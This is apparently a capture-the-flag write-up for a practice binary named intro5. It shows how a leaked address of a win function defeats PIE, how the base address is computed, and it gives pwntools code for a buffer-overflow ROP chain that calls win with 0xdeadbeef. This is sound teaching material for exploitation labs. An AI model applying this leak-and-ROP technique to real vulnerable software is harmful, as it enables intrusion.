




# Intro 5

Okay. intro5 is the same as intro4 but the big change is now PIE is enabled.
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```


PIE being enabled means the address for the win function changes everytime it is run so we will need a leak. 




The main function is using "printf" along with %p and passing "win" so it is giving us the address of win at the start of the program.



We can confirm this is the address of win using GDB

Running the binary with GDB and taking the address that is leaked shows this:



Okay. So the address leaked is win. 

We still need the base address of the binary in order to find the ret address needed.

```
❯ objdump -D pwnme|grep win
000000000000122e <win>:
    1244:	74 0e                	je     1254 <win+0x26>
    1252:	eb 0c                	jmp    1260 <win+0x32>
    1294:	48 8d 35 93 ff ff ff 	lea    -0x6d(%rip),%rsi        # 122e <win>
```

So the offset for win is 0x122e so the base address is "win - 0x122e"

I used the following bit of code to get the leak from the binary and calculate the base address

```
win = io.recvline().split()[5].strip()
win = int(win,16)
base_addr = win - 0x122e
```

I can now update the base address using
```
elf.address = base_addr
```

and use the same method as before to call win and pass 0xdeadbeef

```
payload = b'A' * OFFSET
rop.raw(rop.ret)
rop.win()
rop.win(0xdeadbeefdeadbeef)
payload += rop.chain()

io.sendline(payload)
```



